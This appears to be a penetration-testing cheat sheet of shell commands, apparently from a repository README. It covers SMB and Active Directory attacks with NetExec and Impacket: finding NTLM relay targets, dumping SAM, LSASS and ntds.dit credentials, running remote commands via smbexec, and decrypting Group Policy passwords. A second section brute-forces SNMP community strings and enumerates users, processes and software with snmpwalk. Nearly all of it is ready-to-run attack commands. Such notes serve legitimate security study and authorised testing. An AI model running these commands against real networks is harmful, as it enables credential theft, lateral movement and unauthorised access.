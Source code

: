 ```shell
nxc smb 192.168.1.0/24 --gen-relay-list relay_list.txt # to check which target hasn't enforced smb signing so we can relay ntml

netexec smb 172.16.238.83   -u 'user' -p 'pass' --spider C --pattern txt,pdf,doc,docx 

# ADMINS RIGHTS NEEDED

# sensitive data dumping, if user is admin
nxc smb ip -u user -p pass --sam
nxc smb ip -u user -p pass -M lsassy
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil  # dumps ntds.dit and SYSTEM and parse these using secretsdump
# enumerate loggedon-users if you have admin rights on that machine then impersonate as that user
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --loggedon-users

netexec smb <target-ip> -u <username> -p <password> --exec-method smbexec -x "whoami"

impacket-smbclient "user":'password'@ip

# In case of the error in smbclient copying large files
# parallel_read returned NT_STATUS_IO_TIMEOUT

smbclient --socket-options='TCP_NODELAY IPTOS_LOWDELAY SO_KEEPALIVE SO_RCVBUF=131072 SO_SNDBUF=131072' -t <timout>

# OR Use the below 

smbclient -m SMB2 -N '//server/share' -c 'timeout 120; iosize 16384; get \"My Files\More Files\"\version_1\file.txt' -U <username>


# Active Directory
Groups.xml # could have passwords in it
# AES encrypted password can be decrypted as it's available everywhere using tool too
gpp-decrypt <aes_enc_pass>
```
#### SNMP
```shell
# SNMP Enumeration
download-mibs # so instead of OID, we can get MIB for easier enumeration.
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt
# onesixtyone tool setup
echo public > community
echo private >> community
echo manager >> community # OR /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
onesixtyone -c community -i ips

# SNMP querying
snmpwalk -c public -v1 -t 10 192.168.50.151
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.4.1.77.1.2.25 # oid for user enumeration, specific to server it's for windows
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.2.1.25.4.2.1.2 # currently running processes
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.2.1.25.6.3.1.2 # softwares installed on the machine
snmpwalk -c public -v1 192.168.50.151 1.3.6.1.2.1.6.13.1.3 # list all the listening TCP port connections
# https://mibbrowser.online/mibdb_search.php



# RCE or script execution

# NET-SNMP-EXTEND-MIB executes the mentioned script when queried if these options are set to 1
```